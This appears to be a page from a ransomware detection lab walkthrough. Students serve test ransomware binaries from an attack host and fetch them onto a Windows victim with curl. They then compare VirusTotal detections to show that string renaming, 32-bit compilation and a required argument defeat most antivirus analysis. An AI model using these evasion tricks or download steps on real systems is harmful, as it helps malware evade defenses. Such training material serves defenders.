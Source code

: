 # Detection

## Host the "evil" files.

1. Make sure you are connected to the NIX-ATTACK-HOST-#
2. First record your IP address on the eth0 interface. `ip addr`
3. Ensure you are still in the "notransomware" directory. Change directories if necesary. `cd /home/ubuntu/rsac21-ransom`
4. Run the following command to serve the files for download.
`python3 -m http.server`

## Update Lab Files
1. Now it is time to swap to the WINDOWS-VICTIM-HOST. Press ctrl+shift+alt(command+ctrl+shift). Click the drop down in the top left of the side menu and select the WIN-VICTIM-HOST connection.
2. Open a administrative command prompt by clicking the search icon (magnifying glass) in the bottom left.
3. Type cmd and click on the command prompt desktop app icon when it appears.
4. Change directories to the lab files on the desktop. `cd c:\Users\Administrator\Desktop\rsac21-ransom`
5. Update the files from the git repo.  `git pull`

## Download the "evil" files.

1. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
    1. Is a folder on the desktop called "rsac21-ransom" (If not, launch a command prompt and run `git clone `)
    2. Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)

2. Open a command prompt by clicking the search icon in the bottom left and typing `cmd`.
3. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://<NIX-ATTACK-HOST>:8000/test1.exe -o test1.exe`
4. Once you have this worked out, download all the files you created on the linux attack host just changing the file names.
    1. test1.exe
    2. test264.exe
    3. test232.exe
    4. test332-arg.exe
5. This is your first detection example...no alerts from windows defender.

## What does virust total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. Click the **choose a file** optiont to upload for analysis.
3. Browse to C:\Users\Administrator\Desktop\rsac-ransom and select test1.exe.
4. Wait for the analysis.
> Remember this is was the file that you saved as is and compiled in the amd64 architecture. Having just ~6(may increase as more people upload) detections for what will effectively encrypt files in your homedrive and attempt to connect to a server, while dropping a key and ransom note is pretty scary in itself.
5. Now Click the upload button in the top left beside the search bar and upload the second sample test264.exe.
> This was the sample you simply replaced all occurances of the word encrypt with another word. This now comes back  detections. Putting on show case that changing common words and text associated with malware inside binaries will trick a number of detections in iteslef. Not to mention this changes zero function of the binary while completely changing the hash.
6. Finally, upload the 32bit version of this sample. Same sample as before, but compliled for the more commonly execuable 32bit architecture.
> By nature of the architecture you will see many more detections now, many of the static and behavioral analysis tools are tuned toward 32bit binaires and instructions.
7. All that's great but now upload the final sample where you added the argument requirement for it to run. Test232-args.exe.
> You will notice nearly all the detections go away now, even in the 32bit architecture. All of that work spent on creating different types of anti analysis techiniques and simply adding an argument requirement will fool nearly every auto analysis capability out there, making the detection solely reliant on strings.

Let's return to talk about what just happened and get ready to move on to live reponse.

[Live Response](response.md)
